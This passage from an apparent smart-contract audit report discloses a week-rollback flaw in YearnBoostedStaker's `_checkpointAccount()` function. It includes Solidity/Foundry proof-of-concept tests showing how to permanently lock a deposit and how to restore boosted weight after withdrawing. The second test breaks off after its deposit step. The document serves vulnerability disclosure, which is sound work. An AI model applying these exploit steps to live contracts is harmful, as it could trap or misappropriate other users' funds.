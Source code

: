#### Technical Details

An attacker can exploit the `_checkpointAccount()` function by providing a `_week` value that is less than their `lastUpdateWeek`. This action circumvents most of the function's code but still updates the user's `lastUpdateWeek` ([YearnBoostedStaker.sol, Line 360](https://github.com/wavey0x/yearn-boosted-staker/blob/f0d1833de0530c124dacd1572b3cf401a71702d9/contracts/YearnBoostedStaker.sol#L360)). The resulting inaccurate `lastUpdateWeek` can enable several attack scenarios:

**Locking Victim's Tokens**: An attacker can target another user's deposit, effectively locking their funds in the contract permanently. After the victim's deposit reaches maximum weight, the attacker can reset this weight to week zero, thus trapping the funds.

```solidity
function test_lock_fundsPOC() external {
        ERC20 token = new LockedPrisma(); //ERC20 liquid locked prisma
        YearnBoostedStaker staking = new YearnBoostedStaker(token, 4, block.timestamp, address(this));

        //deposit 100 tokens
        token.approve(address(staking), 100 ether);
        staking.deposit(100 ether);

        //skip 4 weeks so the bitmap will be completely erased on a checkpoint (shift 4 times so not read anymore)
        skip(4 weeks);
        staking.checkpointAccount(address(this));

        //rollback
        staking.checkpointAccountWithLimit(address(this), staking.getWeek() - 4);

        //check current weight has been reset to week 0 power
        staking.checkpointAccount(address(this));
        assertEq(staking.getAccountWeight(address(this)), 50 ether);

        //but our tokens are now realized and not pending so the `weight` update in withdraw will underflow
        vm.expectRevert(stdError.arithmeticError);
        staking.withdraw(100 ether, address(this));
    }
```

**Maintaining Maximum Weight Post-Withdrawal**: An attacker can deposit tokens, wait to achieve maximum boosted weight, withdraw (setting their weight to zero), and then manipulate the weight back to its maximum by exploiting `_checkpointAccount()`.

```solidity
import "forge-std/Test.sol";
import {ERC20} from "@openzeppelin/contracts@v4.9.3/token/ERC20/ERC20.sol";
import {YearnBoostedStaker} from "../contracts/YearnBoostedStaker.sol";

contract LockedPrisma is ERC20 {
    constructor() ERC20("liquid locked prisma", "YPRISMA") {
        _mint(msg.sender, 100_000 ether);
    }
}

contract ContractTest is Test {
    function test_resetWeightPOC() external {
            ERC20 token = new LockedPrisma(); //ERC20 liquid locked prisma
            YearnBoostedStaker staking = new YearnBoostedStaker(token, 4, block.timestamp, address(this));

            //deposit 100 tokens
            token.approve(address(staking), 100 ether);
            staking.deposit(100 ether);

```
